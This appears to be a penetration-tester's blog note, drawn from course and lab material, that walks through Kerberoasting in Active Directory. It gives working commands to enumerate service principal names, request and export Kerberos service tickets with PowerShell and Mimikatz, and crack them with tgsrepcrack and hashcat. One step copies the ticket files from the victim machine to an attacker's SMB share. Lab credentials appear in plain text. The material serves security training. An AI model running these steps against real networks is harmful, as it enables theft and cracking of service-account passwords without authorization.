 ```yaml
---
description: >-
  Kerberoasting Attack
title: Kerberoasting              # Add title here
date: 2022-12-08 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Authentication]          # Change Templates to Writeup
tags: [active directory, authentication, kerberoasting, tgs, spn]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Extracting SPNs from kali
parameter (-k) is used for Kerberos Authentication (NTLM is used by default):
```bash
# Example 1 (with Kerberos)
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-ip dc1.scrm.local -request
# Example 2 (with NTLM Auth)
impacket-GetUserSPNs htb.local/amanda:Ashare1972 -request
```
Examples:
[Scramble](https://shuciran.github.io/posts/Scramble/#fnref:kerberoasting-attack)

[[Sizzle#^e17a07]]

[[Active#^659f81]]

> If we need to request a TGS against Kerberos, a modification on GetUserSPNs.py file is needed, further reading about this [issue](https://github.com/fortra/impacket/issues/1206) is needed to accomplish such authentication.
{: .prompt-tip }

### Extracting SPNs from compromised machine

Recalling the explanation of the Kerberos protocol, we know that when the user wants to access a resource hosted by a SPN, the client requests a service ticket that is generated by the domain controller. The service ticket is then decrypted and validated by the application server, since it is encrypted through the password hash of the SPN.

When requesting the service ticket from the domain controller, no checks are performed on whether the user has any permissions to access the service hosted by the service principal name. These checks are performed as a second step only when connecting to the service itself. This means that if we know the SPN we want to target, we can request a service ticket for it from the domain controller. Then, since it is our own ticket, we can extract it from local memory and save it to disk.

We will abuse the service ticket and attempt to crack the password of the service account.

For example, we know that the registered SPN for the Internet Information Services web server in the domain is _HTTP/CorpWebServer.corp.com_. From PowerShell, we can use the _KerberosRequestorSecurityToken_ class to request the service ticket.

The code segment we need is located inside the _System.IdentityModel_ namespace, which is not loaded into a PowerShell instance by default. To load it, we use the _Add-Type_ cmdlet with the _-AssemblyName_ argument.

First download GetUserSNPS.ps1 from Internet:
[GetUserSPNs.ps1](https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1)

Execute the .ps1 with powershell, the output will be the Service Accounts:

```powershell
PS C:\Users\nathan> C:\Users\nathan\Desktop\GetUserSPNS.ps1

ServicePrincipalName : DC01/Allison.offsec.local:5999
Name                 : Allison
SAMAccountName       : Allison
MemberOf             : 
PasswordLastSet      : 2/22/2022 10:35:56 AM

ServicePrincipalName : kadmin/changepw
Name                 : krbtgt
SAMAccountName       : krbtgt
MemberOf             : CN=Denied RODC Password Replication 
                       Group,CN=Users,DC=offsec,DC=local
PasswordLastSet      : 2/4/2022 10:29:28 AM
```

We can call the _KerberosRequestorSecurityToken_ constructor by specifying the SPN with the _-ArgumentList_ option as shown below.

```powershell
PS C:\Users\nathan\Desktop> Add-Type -AssemblyName System.IdentityModel
PS C:\Users\nathan\Desktop> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'DC01/Allison.offsec.local:5999'
```

After execution, the requested service ticket should be generated by the domain controller and loaded into the memory of the Windows 10 client. Instead of executing Mimikatz all the time, we can also use the built-in klist command to display all cached Kerberos tickets for the current user:

```
PS C:\Users\offsec.CORP> klist

Current LogonId is 0:0x3dedf

Cached Tickets: (4)

#0>	Client: Offsec @ CORP.COM
	Server: krbtgt/CORP.COM @ CORP.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicaliz
	Start Time: 2/12/2018 10:17:53 (local)
	End Time:   2/12/2018 20:17:53 (local)
	Renew Time: 2/19/2018 10:17:53 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: DC01.corp.com

#1>	Client: Offsec @ CORP.COM
	Server: HTTP/CorpWebServer.corp.com @ CORP.COM
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_cano
	Start Time: 2/12/2018 10:18:31 (local)
	End Time:   2/12/2018 20:17:53 (local)
	Renew Time: 2/19/2018 10:17:53 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)
	Cache Flags: 0 
	Kdc Called: DC01.corp.com
...
```

With the service ticket for the Internet Information Services service principal name created and saved to memory, we can download it from memory using either built-in APIs or Mimikatz.

To download the service ticket with Mimikatz, we use the kerberos::list command, which yields the equivalent output of the klist command above. We also specify the /export flag to download to disk as shown below.

```
mimikatz # kerberos::list /export

[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 12/02/2018 10.17.53 ; 12/02/2018 20.17.53 ; 19/02/2018 10.17.53
   Server Name       : krbtgt/CORP.COM @ CORP.COM
   Client Name       : Offsec @ CORP.COM
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forward
   \* Saved to file     : 0-40e10000-Offsec@krbtgt~CORP.COM-CORP.COM.kirbi

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 12/02/2018 10.18.31 ; 12/02/2018 20.17.53 ; 19/02/2018 10.17.53
   Server Name       : HTTP/CorpWebServer.corp.com @ CORP.COM
   Client Name       : Offsec @ CORP.COM
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ;
   \* Saved to file     : 1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

According to the Kerberos protocol, the service ticket is encrypted using the SPN's password hash. If we are able to request the ticket and decrypt it using brute force or guessing (in a technique known as _Kerberoasting_), we will know the password hash, and from that we can crack the clear text password of the service account. As an added bonus, we do _not_ need administrative privileges for this attack.

Let's try this out. To perform a wordlist attack, we must first install the _kerberoast_ package with apt and then run tgsrepcrack.py, supplying a wordlist and the downloaded service ticket:

Note that the service ticket file is binary. Keep this in mind when transferring it with a tool like Netcat, which may mangle it during transfer.

```
kali@kali:~$ sudo apt update && sudo apt install kerberoast
...
kali@kali:~$ python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi 
found password for ticket 0: Qwerty09!  File: 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
All tickets cracked!
```

Also it can be extracted with impacket-smbserver, converted to a hash that hashcat understands and then decrypted:

Kali:
```bash
impacket-smbserver shareFolder $(pwd) -smb2support
```

Victim-Machine:
```bash
copy *.kirbi \\192.168.119.248\shareFolder\*
```

Then convert the .kirbi files to hashes with kirbi2john:

```bash
kirbi2john *.kirbi > hash.txt
```

Finally extract the hashes from hash.txt and crack them with hashcat.exe (on your local machine if possible since hashcat works better if it has access to your GPU directly):
```cmd
D:\Programs\hashcat-6.2.5>hashcat.exe -m 13100 -a 0 hash.txt rockyou.txt
```

In this example we successfully cracked the service ticket and obtained the clear text password for the service account.

This technique can be very powerful if the domain contains high-privilege service accounts with weak passwords, which is not uncommon in many organizations. However, if managed or group managed service accounts are employed for the specific SPN, the password will be randomly generated, complex, and 120 characters long, making cracking infeasible.

Although this example relied on the kerberoast tgsrepcrack.py script, we could also use John the Ripper[8](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/active-directory-attacks/active-directory-authentication/service-account-attacks#fn8) and Hashcat[9](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/active-directory-attacks/active-directory-authentication/service-account-attacks#fn9) to leverage the features and speed of those tools.

The [_Invoke-Kerberoast.ps1_](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1) script extends this attack, and can automatically enumerate all service principal names in the domain, request service tickets for them, and export them in a format ready for cracking in both John the Ripper and Hashcat, completely eliminating the need for Mimikatz in this attack.